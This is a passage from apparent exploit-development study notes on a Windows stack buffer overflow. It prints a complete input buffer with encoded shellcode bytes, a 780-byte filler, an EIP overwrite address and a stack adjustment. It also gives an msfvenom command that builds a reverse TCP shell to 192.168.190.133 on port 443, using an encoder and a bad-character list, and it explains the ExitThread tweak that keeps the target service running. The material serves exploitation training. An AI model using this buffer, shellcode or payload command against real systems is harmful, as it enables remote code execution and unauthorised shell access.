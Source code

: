 We get the shellcode: `\x83\xec\x10`

Update the script to use this shellcode

```python
shellcode = ("\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68")

filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
sub_esp_10 = "\x83\xec\x10"

inputBuffer = filler + eip + offset + sub_esp_10 + shellcode
```

Script: [shellcode_imporved.py](./Scripts/Chapter11/shellcode_imporved.py)

### **2.9 Improving the Exploit**

The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated

Solution: using the `ExitThread` API instead of ExitProcess, which will only terminate the affected thread of the program

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
